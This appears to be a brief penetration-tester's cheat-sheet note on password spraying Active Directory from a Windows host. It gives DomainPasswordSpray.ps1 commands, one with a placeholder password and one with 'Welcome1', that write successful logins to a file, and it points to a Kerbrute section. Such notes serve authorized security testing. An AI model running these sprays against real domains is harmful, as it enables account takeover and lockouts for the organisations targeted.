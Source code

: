 -- -
Password spraying attacks from a windows host. Either pivot host or if that's what they gave you for the assessment. 
### DomainPasswordSpray.ps1
```powershell
# You don't need to supply a userlist as the tool is able to auto-generate one. 

# generic 
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password <passwd> -OutFile <output file> -ErrorAction SilentContinue

# specific 
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

^dd4513

### Kerbrute
You can use the same commands as in the [[Dark Arts/Passwords/Password Spray/Linux|Linux]] section:
![[Dark Arts/Passwords/Password Spray/Linux#^f1c1f5|Linux]]

